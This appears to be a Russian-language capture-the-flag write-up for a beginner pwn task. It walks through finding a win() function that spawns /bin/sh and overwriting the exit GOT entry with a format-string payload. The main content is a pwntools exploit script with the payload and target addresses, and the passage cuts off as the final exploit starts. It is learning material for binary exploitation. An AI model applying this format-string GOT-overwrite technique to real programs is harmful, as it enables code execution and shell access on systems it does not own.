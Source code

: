 ![jynx2](https://github.com/artkegor/nto2024_writeups/blob/main/forensics2/forensics2-1.png)

---

#  Решение PWN-1 (10)
1. Открыв файл в Ghidra видим функцию main, которая считывает ввод пользователя и выводит его в консоль.
2. Обнаруживаем функцию win() с командой ```/bin/sh```. Сюда и надо копать.
3. Понимаем, что нужно перезаписать exit-функцию на функцию win().
4. Сделать это возможно с помощью перезаписи GOT через Format-strings.
5. Нагугливаем очень хорошую статью с похожим кейсом - [вот сама статья](https://habr.com/ru/articles/460647/)
```
from pwn import *
from struct import *

start_addr = 0x401162
exit_addr = 0x404038

ex = process('./vuln')

payload = ("%98p%14$n%16303p%15$n").ljust(64, '*')
payload += pack("Q", exit_addr)
payload += pack("Q", exit_addr+1)

ex.sendline(payload)

ex.interactive()
```
6. Изучив код статьи понимаем, что вместо start_addr нам нужно найти адрес функции win().
7. Через gdb находим адреса в стеке.
```
exit_addr = 4210712
win_addr = 0x401156
```
8. Пишем итоговый эксплоит:
```
from pwn import *
from struct import *
```